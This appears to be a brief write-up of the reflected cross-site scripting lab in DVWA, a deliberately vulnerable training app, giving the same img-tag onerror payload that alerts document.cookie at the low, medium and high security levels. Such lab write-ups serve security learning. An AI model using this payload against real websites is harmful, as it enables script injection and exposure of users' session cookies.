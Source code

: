 ```yaml
---
title: "Reflected Cross Site Scripting (XSS) - DVWA"
description: ""
summary: "Trigger an alert pop-up with cookie values using Reflected XSS."
date: 2022-08-17
draft: false
tags: ["writeups", "challenge", "DVWA", "Reflected XSS"]
---
```



### **Security level: low**

we have name field which is reflecting on page.

payload=`<img src=x onerror="alert(document.cookie)">`

It triggers an alert pop up with cookie value.


### **Security level: medium**

_payload of low level also works here: _

payload=`<img src=x onerror="alert(document.cookie)">`


### **Security level: high**

_payload of low level also works here: _

payload=`<img src=x onerror="alert(document.cookie)">`

Happy Hacking
